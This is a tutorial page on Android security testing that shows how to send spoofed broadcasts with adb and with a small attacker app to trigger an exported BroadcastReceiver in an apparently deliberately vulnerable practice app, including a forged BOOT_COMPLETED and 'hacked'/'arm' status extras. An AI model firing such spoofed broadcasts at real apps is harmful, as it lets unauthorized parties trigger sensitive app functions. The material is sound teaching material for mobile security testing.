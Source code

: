 # BroadcastReceiver Hacking

#### How to Send a Broadcast Using Activity Manager (am) in Android

In Android, you can send broadcasts to receivers defined in the `AndroidManifest.xml`. Here’s a detailed guide on how to do this effectively.

**Defining Intent Filters in `AndroidManifest.xml`**

First, define your receiver and its intent filters in the `AndroidManifest.xml`. For example:

```xml
<receiver android:name=".MyReceiver">
    <intent-filter>
        <action android:name="com.example.MY_ACTION" />
    </intent-filter>
</receiver>
```

In our example application, the receiver is configured to listen for two actions: `BOOT_COMPLETED` and `LOCKED_BOOT_COMPLETED`.

<figure><img src="../.gitbook/assets/image (10) (2).png" alt=""><figcaption></figcaption></figure>

**Sending a Broadcast Using `adb`**

To send a broadcast to this receiver using `adb shell`, you can utilize the `am` (Activity Manager) command. Here’s how to send a `BOOT_COMPLETED` broadcast:

```sh
adb shell am broadcast -a android.intent.action.BOOT_COMPLETED
```

After executing this command, you should observe in logcat that the application is handling the broadcast, possibly performing a system reset.

<figure><img src="../.gitbook/assets/image (11) (2).png" alt=""><figcaption></figcaption></figure>

**Compatibility with Newer Android Versions**

The above method works for older versions of Android. For Android 8.0 (Oreo) and higher, broadcast receivers need to be registered in the Java code, not just in the manifest.

<figure><img src="../.gitbook/assets/image (12) (2).png" alt=""><figcaption></figcaption></figure>

**Checking the `onReceive` Method**

Let’s examine the `onReceive` method in your BroadcastReceiver. Typically, it might process extras included in the broadcast intent. For example, it could be looking for an extra with the key `status`:

```java
@Override
public void onReceive(Context context, Intent intent) {
    String status = intent.getStringExtra("status");
    if ("hacked".equals(status)) {
        // Handle the "hacked" status
    } else if ("arm".equals(status)) {
        // Handle the "arm" status
    }
}
```

**Here is what we got in our vuln-app**

<figure><img src="../.gitbook/assets/image (13) (2).png" alt=""><figcaption></figcaption></figure>

**Sending a Custom Broadcast**

To test your receiver by sending a custom broadcast with an extra value, use the `am` command. For instance, to send a status of "hacked", execute:

```sh
adb shell am broadcast -a com.apphacking.broadcastreceiver.alarmState -es "status" "hacked"
```

<figure><img src="../.gitbook/assets/image (14) (2).png" alt=""><figcaption></figcaption></figure>

You should see logcat messages indicating that the application has processed the "hacked" status.

<figure><img src="../.gitbook/assets/image (15) (2).png" alt=""><figcaption></figcaption></figure>

**Arming the Alarm System**

Similarly, to arm the alarm system, you can send a broadcast with the status set to "arm":

```sh
adb shell am broadcast -a com.apphacking.broadcastreceiver.alarmState -es "status" "arm"
```

<figure><img src="../.gitbook/assets/image (16) (2).png" alt=""><figcaption></figcaption></figure>

By following these steps, you can effectively send broadcasts using the Activity Manager in Android, whether you are working with older versions or the latest ones.

<figure><img src="../.gitbook/assets/image (66).png" alt=""><figcaption></figcaption></figure>

### SO our Hacking App's **`MainActivity.java`** code&#x20;

```java
package com.apphacking.broadcasthacking;

import androidx.appcompat.app.AppCompatActivity;

import android.content.Intent;
import android.os.Bundle;
import android.view.View;


public class MainActivity extends AppCompatActivity {

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);
    }


    public void disarmAlarmSystem(View view) {

        Intent intent = new Intent();
        intent.setAction("com.apphacking.broadcastreceiver.alarmState");
        intent.putExtra("status","arm");
        sendBroadcast(intent);
    }


}
```

